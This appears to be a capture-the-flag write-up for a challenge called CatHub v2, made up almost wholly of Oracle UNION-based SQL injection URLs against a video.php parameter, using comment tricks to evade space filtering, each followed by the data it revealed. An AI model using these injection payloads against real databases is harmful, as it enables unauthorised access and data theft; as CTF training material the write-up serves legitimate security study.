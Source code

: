 # CatHub v2 solution step by step
`https://edu-ctf.csie.org:10159/video.php?vid=-1/**/union/**/all/**/select/**/1,user,null/**/from/**/dual/**/where/**/rownum/**/=/**/1` --> SCOTT
`https://edu-ctf.csie.org:10159/video.php?vid=-1/**/union/**/all/**/select/**/1,SYS.DATABASE_NAME,null/**/from/**/dual` --> XE
`https://edu-ctf.csie.org:10159/video.php?vid=-1/**/union/**/all/**/select/**/DISTINCT/**/1,OWNER,null/**/from/**/ALL_TABLES` --> XDB (DB_NAME_META)
`https://edu-ctf.csie.org:10159/video.php?vid=-1/**/union/**/all/**/select/**/DISTINCT/**/1,OWNER,null/**/from/**/ALL_TABLES/**/where/**/rownum=1` --> SYS (DB_NAME)
`https://edu-ctf.csie.org:10159/video.php?vid=-1/**/union/**/select/**/1,TABLE_NAME,null/**/from/**/ALL_TABLES` --> AUDIT_ACTIONS (TABLE_NAME_META)
`https://edu-ctf.csie.org:10159/video.php?vid=-1/**/union/**/select/**/1,TABLE_NAME,null/**/from/**/ALL_TABLES/**/where/**/rownum=1` --> DUAL (TABLE_NAME)
`https://edu-ctf.csie.org:10159/video.php?vid=-1/**/union/**/select/**/1,COLUMN_NAME,null/**/from/**/ALL_TAB_COLUMNS` --> ABORT_STEP (COLUMN_NAME_META)
`https://edu-ctf.csie.org:10159/video.php?vid=-1/**/union/**/select/**/1,COLUMN_NAME,null/**/from/**/ALL_TAB_COLUMNS/**/where/**/rownum=1` --> DUMMY (COLUMN)   
`https://edu-ctf.csie.org:10159/video.php?vid=-1/**/union/**/select/**/1,DUMMY,null/**/from/**/sys.dual/**/where/**/rownum=1` --> ERROR   